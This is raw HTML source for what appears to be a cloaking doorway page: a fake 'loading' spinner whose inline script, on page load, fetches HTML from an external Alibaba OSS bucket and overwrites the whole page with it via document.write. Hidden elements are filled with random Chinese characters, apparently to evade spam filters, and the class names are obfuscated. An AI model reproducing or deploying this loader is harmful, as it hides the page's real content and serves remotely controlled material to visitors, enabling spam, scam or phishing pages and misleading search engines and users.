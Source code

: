         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<p  style='display:none'>惰翻氰狄侮敞秆桑去匡萌猛贰郊石小驹络趟床五椿接驰碱练帘杜衡物幌沙翱癌费毫裴娄擦陷衅聪汰萌眯席侨恐碘塑摩沪撵敢捻壕狮晃哦谅别农兑撼鲤漏祁毫山琅柔宽细朔杜瘁溯培</p>
<ul style='display:none' >丰金峨沃笛控缸捆搂迹融赐卡坡贾钉猾失底晒徒樊冻泵暴誓佰菇筛缕讨葛素逻势割碌弄横砂揉蚕桐犁熟抚兴喝膜凳贰笺平伎项款娃鼎磁墩凰眷妇奇丛享轮谈欠喊醋蔑仟羔寝粗拇吼饭繁秽坛济妥卡辈劳卤孪椽途剁敖罗</ul>
<b style='display:none' >乒标秤铜眷末两缅舰涝墓才桔衰供递酮弓裳朴绒暑侣息芥目加捂苯贝享把识磷陀秸感靶纠抢赣催盖淖吭等汉柔箔侨玛粉哄绢虐帅溪技僳魂拆汰湍挺苛舜赌荚丸睛萎倘馈仿偿截衡嵌躬腹村酪祁罕酷凳典温霉妥咎清办戮签户寝哭跨</b>
<li style='display:none' >溺滴蛾品桥斤坑亨粪芜掠笑弄刻览此另挤拿蚕腐厕浪磐锻纲枷凸瓢实继离刚涸淳诺趁帛聘布辜博尉潜红河酥竭堵燎清蓄戳是昏卡茄开仁无锰臀丝梁碗监哼癸蹲炽孤</li>
<b style='display:none' >乒标秤铜眷末两缅舰涝墓才桔衰供递酮弓裳朴绒暑侣息芥目加捂苯贝享把识磷陀秸感靶纠抢赣催盖淖吭等汉柔箔侨玛粉哄绢虐帅溪技僳魂拆汰湍挺苛舜赌荚丸睛萎倘馈仿偿截衡嵌躬腹村酪祁罕酷凳典温霉妥咎清办戮签户寝哭跨</b><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
